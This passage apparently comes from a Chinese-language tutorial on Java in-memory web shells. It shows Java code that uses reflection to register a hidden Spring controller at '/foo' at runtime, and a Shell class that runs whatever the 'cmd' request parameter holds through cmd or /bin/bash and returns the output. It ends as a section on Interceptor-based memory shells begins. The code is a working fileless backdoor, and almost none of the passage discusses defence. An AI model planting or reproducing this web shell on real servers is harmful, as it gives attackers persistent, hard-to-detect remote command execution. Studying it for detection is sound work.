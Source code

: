 

```java
public static void injectController() throws Exception {
         WebApplicationContext context = (WebApplicationContext) RequestContextHolder.getRequestAttributes().getAttribute("org" +
                ".springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        //代码中的MappingInfo需要从入口的注解中获得,这里手动实例化
        PatternsRequestCondition patterns = new PatternsRequestCondition("/foo");
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition(RequestMethod.GET,RequestMethod.POST);
        RequestMappingInfo mapping = new RequestMappingInfo(patterns, ms, null, null, null, null, null);
        Method registerHandlerMethod= getMethod("org.springframework.web.servlet.mvc.method.annotation" +
                        ".RequestMappingHandlerMapping",
                "registerHandlerMethod", Object.class, Method.class, RequestMappingInfo.class);
        Method method = Shell.class.getDeclaredMethod("shell", HttpServletRequest.class, HttpServletResponse.class);
        registerHandlerMethod.invoke(mappingHandlerMapping, new Shell(), method, mapping);
    }

public class Shell {
    public void shell(HttpServletRequest request, HttpServletResponse response) throws Exception {
        if (request.getParameter("cmd") != null) {
            try {
                Boolean isWin = System.getProperty("os.name").toUpperCase().contains("WIN");
                String[] cmd = {isWin ? "cmd" : "/bin/bash", isWin ? "/c" : "-c", request.getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                OutputStream outputStream = response.getOutputStream();
                int a = 0;
                outputStream.write("<pre>".getBytes());
                while ((a = inputStream.read()) != -1) {
                    outputStream.write(a);
                }
                outputStream.write("</pre>".getBytes());
            } catch (Exception e) {
            }
        }
    }
}
```





### 5.6 Interceptor内存马

获取Interceptor的代码在getHandler中的一个代码流程分支中，我们可以看到最关键的地方是一个数组：
